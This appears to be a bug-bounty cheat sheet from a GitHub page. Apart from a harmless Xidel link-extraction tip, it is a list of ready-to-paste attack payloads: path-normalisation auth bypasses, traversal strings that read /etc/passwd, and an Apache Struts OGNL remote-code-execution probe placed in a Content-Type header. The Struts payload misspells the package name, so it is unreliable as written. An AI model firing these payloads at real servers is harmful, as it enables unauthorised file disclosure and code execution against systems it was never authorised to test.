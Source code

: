 **Bug Hunting Tricks**

**Extracting links, paths from source of a website**
```
Use Xidel
https://github.com/benibela/xidel
Usage:-
xidel http://apple.com -f '//script/@src'
xidel http://apple.com -f '//link/@href'
xidel http://apple.com -f '//a/@href'

References:-
https://www.videlibri.de/xidel.html
```

**Bypasses For LFI, Auth Bypass**
```
..;/ 
or
/foo;x=x/bar/
above tricks work well when you have a ngnix server in front of an tomcat
../../../../../../../../../../../../etc/passwd%00
//..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
/..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd


References:- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
```

**Struts RCE**
```
Content-Type: ${#context["com.opensymphone.xwork2.dispatcher.HttpServletResponse"].addHeader("Struts-RCE",191*7)}.multipart/form-data
```
